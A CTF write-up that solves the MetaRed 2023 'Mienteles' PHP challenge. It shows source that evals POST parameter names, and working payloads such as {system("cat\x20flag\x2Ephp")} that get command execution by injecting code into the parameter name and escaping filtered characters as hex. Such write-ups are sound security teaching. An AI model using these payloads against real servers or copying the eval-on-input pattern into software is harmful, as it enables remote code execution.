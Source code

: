```yaml
---
title: MetaRed CTF 2023 - Mienteles
date: Thu Oct 26 04:33:18 PM +04 2023
categories: [Writeup]
tags: [ctf,metaredctf,metaredctf2023,web,php]
---
```


## Description

\<No Description After CTF Ended...\>

[Challenge](https://mienteles.ctf.cert.unlp.edu.ar/)<br>
[Source](https://mienteles.ctf.cert.unlp.edu.ar/?src)

## Solution

```php
<?php

if (isset($_GET['src'])) {
    highlight_file(__FILE__);
    die();
}
?>
...
<div class="card-body">
    <h5 class="card-title">Flag</h5>
    <p class="card-text">Aquí estará tu flag: </p>
    <!-- Accede a ?src -->
    <?php
    error_reporting(0);
    if ($_POST['keyl'] == md5(date('Y-m-d'))) {
        foreach ($_POST as $name => $value) {
            $assign = "\$" . $name . "='" . preg_replace('([^A-Za-z0-9@. _-])', '', $value) . "';";
            eval($assign);
        }
    } else {
        echo "No podes hackearme";
    }
    ?>
</div>
...
```

The php code basically allows us to create variables, if string `$name=value` is evaluated then we can have access to `$name` in the code. 

One other thing to take note of is `"` (double quotes), in PHP double quotes allows string interpolation so to avoid disgusting string concatination and use beautiful "format strings" you can include variables in `{}`.

```php
└─$ php -a
Interactive shell

php > $name="Ryan";
php > echo "Hello {$name}";
Hello Ryan
```

Let's get cooking D:

First let's bypass the md5 hash check:

```py
>>> from hashlib import md5
>>> from datetime import date
>>> md5(str(date.today()).encode()).hexdigest()
'6bde8c88ffee17ea27c8e281299dcf47'
>>>
```

Nice, now the actual payload. We can't sneak any variable into `value` due to heavy filtering, but what about name?

Payload: `keyl=6bde8c88ffee17ea27c8e281299dcf47&{system("ls")}=1`

![mienteles-1](/assets/images/metared/2023/mienteles-1.png)

Great we got command execution!

Now we need to `cat` the file, the problem is how php transforms the data <https://www.php.net/manual/en/language.variables.external.php#81080>.

> The full list of field-name characters that PHP converts to _ (underscore) is the following (not just dot):<br>
> chr(32) ( ) (space)<br>
> chr(46) (.) (dot)<br>
> chr(91) ([) (open square bracket)<br>
> chr(128) - chr(159) (various)<br>
> <br>
> PHP irreversibly modifies field names containing these characters in an attempt to maintain compatibility with the deprecated register_globals feature.

We cannot URLEncode our payload because it will be decoded and php will still convert it to underscores. What we can do is use hex codes, because they will not be decoded until they are inside the `system` call.

0x20 -> Space<br>
0x2E -> Dot

Payload: `keyl=6bde8c88ffee17ea27c8e281299dcf47&{system("cat\x20flag\x2Ephp")}=1`

![mienteles-2](/assets/images/metared/2023/mienteles-2.png)

> Flag: flag{N1c3!No_B0untY_But_Th1s_1s_ur_fl4G}
{: .prompt-tip }